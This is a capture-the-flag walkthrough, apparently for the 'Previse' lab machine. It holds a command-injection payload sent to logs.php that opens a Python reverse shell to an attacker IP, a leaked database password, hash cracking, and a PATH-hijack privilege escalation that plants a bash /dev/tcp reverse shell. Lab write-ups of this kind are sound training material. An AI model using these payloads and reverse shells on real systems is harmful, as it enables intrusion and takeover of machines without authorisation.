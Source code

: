 # Enum

### Nmap Scan

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

***
# Footholding

Since every page found by Fuzzing is redirecting to `login.php`

Used `cURL` to get Souce Code of page

```bash
curl 10.129.159.224
```

On further Exploring A page `accounts.php` seems to register new Users

```bash
curl 10.129.159.224/accounts.php -X POST -d "username=admin45&password=password45&confirm=password45"
```


downloaded `siteBackup.zip` which was uploaded by some user

***

From `config.php` found `mysql` database Credentials

```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

***

# Getting Shell

On Further reading the source code of php webpages

`logs.php` have `exec()` function which is used to execute commands in `php`

Intercepting the request using `Burp` and Forwarding the request with `payload`

```text
POST /logs.php HTTP/1.1
Host: 10.129.160.202
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://10.129.160.202
Connection: close
Referer: http://10.129.160.202/file_logs.php
Cookie: PHPSESSID=tnnt0rgfqnuo95n2d5017blmdr
Upgrade-Insecure-Requests: 1

delim=<PAYLOAD>
```

**Payload**

Send in `url-encoding`

```text
PAYLOAD :
comma & python -c 'a=__import__;s=a("socket");o=a("os").dup2;p=a("pty").spawn;c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect(("10.10.14.56",4242));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```

***

# Lateral Movement

Got the shell as `www-data` user

Upgrading Reverse Shell

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

##### Accessing `MYSQL`

Using Credentails found Before

```bash
 mysql -u root -p previse
```

```mysql
show tables;

select * from accounts;	
```

Found `hash` for `m4lwhere` user

```text
m4lwhere: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. 
```

Cracking The hash using `john`
with **format :** ` md5crypt-long`  
**wordlist :** ` rockyou.txt`
Password : `ilovecody112235!`

- `SSH` into machine as `m4lwhere` user with above Passwd

***

# Prev ESC

Checking Commands allowed to run as `root` : `sudo -l`
  
 ```text
User m4lwhere may run the following commands on previse:                                                                                                             
    (root) /opt/scripts/access_backup.sh 
```

On reading the `access_backup.sh` 
`date` command can be played with
 
```bash
export PATH=/tmp:$PATH
cd tmp/
echo "bash -i >& /dev/tcp/10.10.14.56/4242 0>&1" > date
chmod +x date
sudo /opt/scripts/access_backup.sh
```


***
# Resource

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php)

***
